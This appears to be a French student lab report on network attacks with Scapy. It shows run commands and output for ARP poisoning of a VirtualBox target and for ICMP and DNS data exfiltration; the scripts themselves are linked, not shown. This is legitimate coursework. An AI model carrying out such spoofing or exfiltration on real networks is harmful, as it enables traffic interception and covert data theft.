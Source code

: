 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

[Script](./ping.py)

```sh
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```

🌞 **`tcp_cap.py`**

[Script](./tcp_cap.py)

```bash
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 **`dns_cap.py`**

[Script](./dsn_cap.py)

```bash
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Tue Nov 28 18:52:33 CET 2023
;; MSG SIZE  rcvd: 85
```

En même temps : 

```bash
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```

🌞 **`dns_lookup.py`**

[Script](./dns_lookup.py)

```bash
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

[Script](./arp_poisoning.py)

Depuis la cible :

```bash
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

Depuis l'attaquant :

```bash
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.56.5/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

Depuis la cible :

```bash
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

[Script](./icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```

[Capture du ping.](./icmp_exfr_send.pcapng)

Contenu du ping en ascii : 
''NaE@À¨8À¨8ÿt

🌞 **`icmp_exf_receive.py`**

[Script](./icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```

```bash
$ sudo python3 icmp_exf_rcv.py
t
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

[Script](./dns_exfiltration_send.py)

```bash
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 testing_this_test_to_test_my_test_oki
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

[Capture des requêtes DNS](./dns_exfiltration_test.pcapng)
